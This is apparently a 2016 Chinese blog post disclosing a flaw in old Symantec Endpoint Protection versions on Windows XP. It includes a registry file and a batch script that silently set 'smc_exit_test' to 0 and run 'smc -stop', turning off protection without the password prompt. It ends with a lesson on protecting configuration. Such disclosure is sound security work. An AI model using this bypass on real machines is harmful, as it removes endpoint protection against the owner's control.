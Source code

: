 ```yaml
---
title: 旧版SEP在Windows XP下的漏洞
tags:
  - Windows
categories: 运维
date: 2016-07-31 14:35:44
---
```



低版本的 SEP(Symantec endpoint protection) 在 Windows XP 系统下存在一个漏洞（其他版本 windows 尚未验证），即修改注册表某一键的值后，即可在不输入密码的情况下关闭该软件的相关保护功能。

## 分析

首先创建一个 test.reg 文件，用于修改注册表，内容如下。<!--more-->

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC]
"smc_exit_test"=dword:00000000
```

可以看到我们只需要将位于 `HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC` 中的 `smc_exit_test` 项的值改为0，就可以禁用关闭保护时的检测。

然后创建一个 bat 文件，内容如下：

```
@echo off
regedit.exe/s C:\test.reg
cd  "C:\Program Files\Symantec\Symantec Endpoint Protection"
smc -stop
```

在这个脚本中，我们通过 regedit.exe/s 命令无提示地将刚才定义的 reg 文件内容导入注册表，随后切换到 SEP 的安装目录中，通过执行 SEP 自带的 `smc -stop` 来终止保护。

运行后可以发现并没有出现在直接运行 `smc -stop` 时会弹出的要求输入密码的对话框，SEP 却直接停止了保护。

## 后记

这是 SEP 几年前旧版本中的一个漏洞，在随后的新版本中早已得到修护。我们可以从这个漏洞中看到，在编程时需要考虑一些配置信息的隐藏和权限控制问题（尤其注意早期版本 windows 的注册表），防止通过简单地修改注册表或配置文件即可停止程序主体服务的情况发生。